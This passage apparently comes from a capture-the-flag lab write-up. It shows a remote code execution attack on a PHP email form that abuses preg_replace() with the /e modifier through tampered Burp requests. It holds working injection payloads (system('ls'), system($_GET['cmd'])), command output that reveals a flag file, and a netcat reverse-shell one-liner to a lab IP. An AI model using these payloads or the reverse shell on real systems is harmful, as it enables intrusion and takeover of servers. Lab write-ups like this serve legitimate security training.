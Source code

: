 There is a remote code execution vulnerability with preg_replace(), change request in Burp:

```text
swearwords%5B%2Ffuck%2Fe%5D=system('ls')&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fi
%5D=penis&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=test%40pencer.com&subject=test&message=fuck
```

Key bit there is I've changed first swearword fuck to be replaced with system('ls'). So now when I send a message with fuck in it I get this response:

```html
<b>Message</b></p>
        <hr>
        <p>
            a_flag_is_here.txt
            auth.php
            badwords.txt
            bower_components
            build
            conf.php
            <SNIP>
    <br />
<b>
```

We can turn change it so we can run commands via a parameter variable:

```text
swearwords%5B%2Ffuck%2Fe%5D=system($_GET["cmd"])&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fi
%5D=penis&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=test%40pencer.com&subject=test&message=fuck
```

With the GET there we can use a parameter:

```text
POST /dirb_safe_dir_rf9EmcEIx/admin/email.php?cmd=cat a_flag_is_here.txt HTTP/1.1
```

The response contains the file with the flag:

```html
Message</b></p>
        <hr>
        <p>
        JET{pr3g_r3pl4c3_g3ts_y0u_pwn3d}
    <br />
    <b>
```

Time for a reverse shell:

```text
POST /dirb_safe_dir_rf9EmcEIx/admin/email.php?cmd=cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.13.14.46+1337+>/tmp/f HTTP/1.1
```
